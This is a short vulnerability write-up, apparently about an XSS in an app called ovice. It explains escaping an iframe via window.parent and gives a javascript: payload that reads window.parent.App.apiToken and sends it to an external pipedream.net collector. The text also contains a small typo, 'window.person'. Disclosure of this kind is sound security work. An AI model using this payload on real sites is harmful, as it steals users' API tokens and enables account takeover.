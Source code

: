 ### child frame escape

- `window.App` In order to access an object, it is necessary to escape the child frame of the iframe.
To escape, approach it as a `window.parent` parent.
- If you check the location, you can see that it exists in different locations.

![iframe security escape](./---467.png)

- `Frame redirection` is performed to transfer data to the outside using the `location.href` attribute.
- When proceeding with redirection, it is delivered with reference to `window.parent.App`

```jsx
javascript:window.location.href='https://34262b51514dfe4a89d127042ade5798.m.pipedream.net/?'+(window.parent.App.apiToken)
```

- As a result of delivering the `apiToken` value to an external server by referring to `window.person.App`, the `CSP`is not applied to the main flow, so you can check the data.

![ovice iframe xss](./x_11.png)
